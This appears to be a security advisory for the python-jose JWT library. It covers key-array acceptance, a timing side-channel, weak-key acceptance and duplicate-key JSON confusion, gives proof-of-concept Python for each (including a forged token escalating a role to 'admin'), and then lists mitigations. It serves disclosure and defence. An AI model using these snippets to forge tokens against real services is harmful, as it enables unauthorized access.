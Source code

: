 # python-jose: Security Analysis

## Affected Software

```
Package: python-jose
Versions: 3.3.0 - 3.5.0
```

## Known CVEs

| CVE | Description |
|-----|-------------|
| CVE-2025-61152 | Algorithm confusion: 'alg=none' bypass |
| CVE-2024-33664 | DoS via JWE compression bomb |
| CVE-2024-33663 | Algorithm confusion with ECDSA keys |
| CVE-2016-7036 | Non-constant time HMAC comparison |

## Vulnerability Analysis

### Sequential Key Array Validation Bypass

**CWE-287: Improper Authentication**

Function `jose.jws._sig_matches_keys()` accepts key arrays and returns on first match without authority validation.

**Vulnerable code:** `jose/jws.py:210-217`

```python
def _sig_matches_keys(keys, signing_input, signature, alg):
    for key in keys:
        if not isinstance(key, Key):
            key = jwk.construct(key, alg)
        try:
            if key.verify(signing_input, signature):
                return True
        except Exception:
            pass
    return False
```

**Exploitation:**

```python
from jose import jwt

K1 = "compromised_2024"
K2 = "current_2025"

token = jwt.encode({"user": "attacker", "admin": True}, K1, algorithm="HS256")
result = jwt.decode(token, [K2, K1], algorithms=["HS256"])
# Success with deprecated K1
```

---

### Observable Timing Side-Channel

**CWE-208: Timing Discrepancy**

Sequential iteration creates timing oracle proportional to key position.

**Measurement:**

```python
from jose import jwt
import time, statistics

keys = [f"key_{i}" for i in range(100)]
target = "key_50"
token = jwt.encode({"data": "test"}, target, algorithm="HS256")

timings_early, timings_late = [], []

for _ in range(1000):
    keys_early = [target] + [k for k in keys if k != target]
    t0 = time.perf_counter()
    jwt.decode(token, keys_early, algorithms=["HS256"])
    timings_early.append(time.perf_counter() - t0)
    
    keys_late = [k for k in keys if k != target] + [target]
    t0 = time.perf_counter()
    jwt.decode(token, keys_late, algorithms=["HS256"])
    timings_late.append(time.perf_counter() - t0)

print(f"Ratio: {statistics.mean(timings_late) / statistics.mean(timings_early):.2f}x")
# Result: 6.45x timing difference
```

---

### Weak Key Acceptance

**CWE-521: Insufficient Entropy**

No validation of HMAC key entropy (RFC 2104, NIST SP 800-107).

```python
from jose import jwt

# All accepted without validation
for key in ["", "a", "123", "password"]:
    token = jwt.encode({"test": "data"}, key, algorithm="HS256")
    jwt.decode(token, key, algorithms=["HS256"])
    print(f"Accepted: {repr(key)}")
```

---

### JSON Duplicate Key Confusion

**CWE-436: Interpretation Conflict**

RFC 8259 permits duplicate keys with undefined precedence.

```python
from jose import jwt
import base64, hmac, hashlib

def forge_token(payload_json, key):
    header = base64.urlsafe_b64encode(b'{"alg":"HS256","typ":"JWT"}').rstrip(b'=')
    payload = base64.urlsafe_b64encode(payload_json.encode()).rstrip(b'=')
    message = header + b'.' + payload
    signature = base64.urlsafe_b64encode(
        hmac.new(key.encode(), message, hashlib.sha256).digest()
    ).rstrip(b'=')
    return (message + b'.' + signature).decode()

payload = '{"user":"alice","role":"guest","role":"admin"}'
token = forge_token(payload, "secret")
decoded = jwt.decode(token, "secret", algorithms=["HS256"])
print(decoded['role'])  # 'admin' (last occurrence wins)
```

**Parser behavior:**

| Parser | Result |
|--------|--------|
| Python json | Last wins |
| PostgreSQL jsonb | First wins |
| MySQL JSON | Error |

---

## Mitigation

### Disable Key Arrays

```python
# Vulnerable
jwt.decode(token, [key1, key2], algorithms=["HS256"])

# Secure
jwt.decode(token, get_current_key(), algorithms=["HS256"])
```

### Key Lifecycle

```python
import secrets, time

class KeyManager:
    def __init__(self):
        self.current_key = secrets.token_bytes(32)
        self.rotation_time = time.time()
    
    def get_key(self):
        if time.time() - self.rotation_time > 2592000:  # 30 days
            raise ValueError("Key expired")
        return self.current_key
```

### Validate Entropy

```python
import math

def validate_key(key: bytes):
    if len(key) < 32:
        raise ValueError("Key too short")
    
    entropy = -sum((key.count(bytes([b]))/len(key)) * math.log2(key.count(bytes([b]))/len(key))
                   for b in set(key)) * len(key)
    
    if entropy < 128:
        raise ValueError(f"Insufficient entropy: {entropy:.1f} bits")
```

### Reject Duplicate Keys

```python
import json

def strict_decode(data: str):
    def check_duplicates(pairs):
        keys = [k for k, _ in pairs]
        if len(keys) != len(set(keys)):
            raise ValueError(f"Duplicate keys: {set([k for k in keys if keys.count(k) > 1])}")
        return dict(pairs)
    
    return json.loads(data, object_pairs_hook=check_duplicates)
```

---

## Library Comparison

| Library | Key Array | Timing | Entropy | JSON |
|---------|-----------|--------|---------|------|
| python-jose 3.5.0 | Accept | O(n) | None | Permissive |
| PyJWT 2.8.0 | Reject | N/A | Minimal | Permissive |
| Authlib 1.3.0 | Reject | N/A | NIST | Strict |

---

## References

RFC 2104 - HMAC  
https://datatracker.ietf.org/doc/html/rfc2104

RFC 7515 - JWS  
https://datatracker.ietf.org/doc/html/rfc7515

RFC 8259 - JSON  
https://datatracker.ietf.org/doc/html/rfc8259

NIST SP 800-57 - Key Management  
https://csrc.nist.gov/publications/detail/sp/800-57-part-1/rev-5/final

CWE-287: Improper Authentication  
https://cwe.mitre.org/data/definitions/287.html

CWE-208: Timing Discrepancy  
https://cwe.mitre.org/data/definitions/208.html

---

## Legal

License: CC BY 4.0  
Use: Authorized security testing only  
Liability: No warranties provided
